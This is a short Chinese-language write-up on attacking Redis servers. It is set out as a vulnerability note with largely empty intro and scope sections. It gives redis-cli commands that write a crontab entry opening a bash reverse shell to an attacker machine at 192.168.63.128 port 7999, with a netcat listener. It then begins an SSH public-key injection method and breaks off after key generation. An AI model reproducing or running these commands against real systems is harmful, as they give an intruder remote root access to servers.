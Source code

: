 ```yaml
---
title: "redis总结"
id: zhfly3106
---
```


# redis总结

## 一、漏洞简介

redis总结

## 二、影响范围

## 三、复现过程

#### 攻击的几种方法

参考:
http://www.cnblogs.com/xiaozi/p/7568272.html
https://evi1cg.me/archives/hackredis.html

##### (1).利用计划任务执行命令反弹shell

在redis以root权限运行时可以写crontab来执行命令反弹shell

先在自己的服务器上监听一个端口

nc -lvnp 7999

然后执行命令:

```
root@kali:~## redis-cli -h 192.168.63.130
      192.168.63.130:6379> set x "\n* * * * * bash -i >& /dev/tcp/192.168.63.128/7999 0>&1\n"
      192.168.63.130:6379> config set dir /var/spool/cron/
      192.168.63.130:6379> config set dbfilename root
      192.168.63.130:6379> save 
```

**ps:此处使用bash反弹shell，也可使用其他方法**

##### (2).写ssh-keygen公钥然后使用私钥登陆

在以下条件下，可以利用此方法

1、Redis服务使用ROOT账号启动

2、服务器开放了SSH服务，而且允许使用密钥登录，即可远程写入一个公钥，直接登录远程服务器。
首先在本地生成一对密钥：

```
root@kali:~/.ssh## ssh-keygen -t rsa 
```
